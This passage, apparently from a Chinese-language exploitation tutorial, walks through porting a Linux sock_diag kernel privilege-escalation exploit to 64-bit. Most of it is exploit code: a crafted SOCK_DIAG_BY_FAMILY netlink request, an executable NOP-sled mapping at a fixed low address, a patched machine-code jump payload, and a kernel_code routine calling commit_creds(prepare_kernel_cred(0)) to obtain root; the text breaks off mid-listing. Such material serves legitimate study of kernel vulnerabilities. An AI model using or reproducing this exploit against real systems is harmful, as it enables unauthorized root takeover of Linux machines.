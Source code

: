 ```
  req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
  req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
  req.nlh.nlmsg_seq = 123456;

  req.r.udiag_states = -1;
  req.r.udiag_show = UDIAG_SHOW_NAME | UDIAG_SHOW_PEER | UDIAG_SHOW_RQLEN;
 [...]
  unsigned long mmap_start, mmap_size;
  mmap_start = 0x10000;  //选择了一块1MB多的内存区域
  mmap_size = 0x120000;  
  printf("mmapping at 0x%lx, size = 0x%lxn", mmap_start, mmap_size);

        if (mmap((void*)mmap_start, mmap_size, PROT_READ|PROT_WRITE|PROT_EXEC,
                MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) == MAP_FAILED) `{`
                printf("mmap faultn");
                exit(1);
        `}`
  memset((void*)mmap_start, 0x90, mmap_size);         //将其全部填充为0x90，在X86系统中对应的是NOP指令

  char jump[] = "x55x89xe5xb8x11x11x11x11xffxd0x5dxc3"; // jump_payload in asm
  unsigned long *asd = &amp;jump[4];
  *asd = (unsigned long)kernel_code; //使用kernel_code函数的地址替换掉jump[]中的0x11

  memcpy( (void*)mmap_start+mmap_size-sizeof(jump), jump, sizeof(jump));

  [...]
```

大牛的利用思路是，获取**rehash_time**大致取值范围，然后在那块区域布满**nop**指令用于堆喷，再写一个提权子函数后，利用很巧妙的手法，塞进区域的最后，由**call xxx**来成功突破。换言之，32位转变成64位，最重要的就是获取64位下**rehash_time**的范围，就是64位的指令格式和长度不同，还有就是数据类型大小也有所不同。

**Fourthly**,写出64位下的**jump_payload**汇编语句后，靠**objdump**来编译出机器码，值得注意的是，64位里，你设置的跳转地址不同，机器码也会有所不同。

[![](https://p1.ssl.qhimg.com/t01109d3a904c05ea0c.png)](https://p1.ssl.qhimg.com/t01109d3a904c05ea0c.png)

接下来需要调试出64位里**rehash_time**的位置，这会在下节讲。等到这两点都获取了，那么64位的exp也差不多写成了。

```
#include&lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;linux/netlink.h&gt;
#include &lt;netinet/tcp.h&gt;
#include &lt;errno.h&gt;
#include &lt;linux/if.h&gt;
#include &lt;linux/filter.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;linux/sock_diag.h&gt;
#include &lt;linux/inet_diag.h&gt;
#include &lt;linux/unix_diag.h&gt;
#include &lt;sys/mman.h&gt;
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
unsigned long sock_diag_handlers, nl_table;
int __attribute__((regparm(3))) //获取root权限
kernel_code()
`{`
    commit_creds(prepare_kernel_cred(0));
    //return -1;
`}`
int jump_payload_not_used(void *skb, void *nlh)
```
